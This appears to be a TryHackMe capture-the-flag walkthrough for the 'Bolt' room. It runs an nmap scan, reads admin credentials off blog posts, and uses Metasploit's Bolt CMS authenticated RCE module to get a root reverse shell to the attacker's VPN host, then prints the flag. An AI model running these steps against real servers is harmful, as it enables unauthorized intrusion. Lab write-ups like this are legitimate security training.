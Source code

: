 # TryHackMe Walkthrough 
Room link: https://tryhackme.com/r/room/bolt

## Nmap:
```
nmap -sCV -v 10.10.189.54 
```
<pre>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 11:31 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating Ping Scan at 11:31
Scanning 10.10.189.54 [4 ports]
Completed Ping Scan at 11:31, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:31
Completed Parallel DNS resolution of 1 host. at 11:31, 0.05s elapsed
Initiating SYN Stealth Scan at 11:31
Scanning 10.10.189.54 [1000 ports]
Discovered open port 80/tcp on 10.10.189.54
Discovered open port 22/tcp on 10.10.189.54
Discovered open port 8000/tcp on 10.10.189.54
Completed SYN Stealth Scan at 11:31, 5.32s elapsed (1000 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 10.10.189.54
Completed Service scan at 11:32, 29.96s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.189.54.
Initiating NSE at 11:32
Completed NSE at 11:32, 7.69s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 11.14s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Nmap scan report for 10.10.189.54
Host is up (2.6s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
  
NSE: Script Post-scanning.
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
</pre>

## Opening IP in Browser:
### Did not find anything here 
![Screenshot 2024-07-22 210254](https://github.com/user-attachments/assets/257980f2-8be0-4cc6-9350-5099dadccb2c)


### Navigated to the port 8000, This has got some interesting pages
![Screenshot 2024-07-22 215524](https://github.com/user-attachments/assets/909c645b-e3ac-46b1-81ff-52a8e371f220)


### One of the blog reveals to us the username of the admin of the website
![Screenshot from 2024-07-22 11-41-03](https://github.com/user-attachments/assets/04d88e03-e942-4850-bf04-a7ab490d8345)

### And other blog reveals us the password in clear text 
![Screenshot from 2024-07-22 12-29-48](https://github.com/user-attachments/assets/e0753192-9bda-4f46-9a3d-51ab03f2ff99)



## SSH Login:
#### The username and passowrd are not for ssh 
```
ssh bolt@10.10.189.54
```
<pre>
The authenticity of host '10.10.189.54 (10.10.189.54)' can't be established.
ED25519 key fingerprint is SHA256:e1qiq3Gpe8kdF5iw8bxPh9T4IgoUlUqClso+H6525EE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.189.54' (ED25519) to the list of known hosts.
bolt@10.10.189.54's password: 
Permission denied, please try again.
bolt@10.10.189.54's password: 
</pre>

### Went to user manual page of Bolt CMS and found the login page details
![Screenshot 2024-07-22 220916](https://github.com/user-attachments/assets/8038d255-2403-4ed5-a8cb-4168f2383eaa)
### Logged in with the credentials and found the CMS version.

### Searched for the exploit in Exploit DB
![Screenshot 2024-07-22 221151](https://github.com/user-attachments/assets/e21ff7c1-cb55-4069-a53c-b8018886c8e0)

## Started the msfconsole:
#### Searched for the exploit in metasploit and selected the exploit and saw the options to set 
![Screenshot from 2024-07-22 12-14-40](https://github.com/user-attachments/assets/e1aab280-997b-4865-8cca-2f8a3e53eb16)

### Set the options LHOST, RHOSTS, USERNAME, PASSWORD and ran the exploit
<pre>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.17.9.110
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.189.54
RHOSTS => 10.10.189.54
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123 
PASSWORD => boltadmin123
</pre>
#### RHOST is the ip of the machine
#### LHOST is the ip of our machine’s vpn ( note: we don’t get reverse shell if we use our own ip )
#### USERNAME and PASSWORD is that we found in previous enumeration
#### TARGETURI is where you want to put our website url. here its bolt website in port 8000
```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```
<pre>
[*] Started reverse TCP handler on 10.17.9.110:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "sdkl".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file mnlzukxy.php.
[+] Deleted file rdtkllozkg.php.
[+] Used token b54399f7cfb24501eac04a71d2 to create bmphghhjytu.php.
[*] Attempting to execute the payload via "/files/bmphghhjytu.php?sdkl=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.17.9.110:4444 -> 10.10.189.54:53504) at 2024-07-22 12:15:03 -0400
[+] Deleted file bmphghhjytu.php.
[+] Reverted user profile back to original state.

whoami
root

cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
</pre>



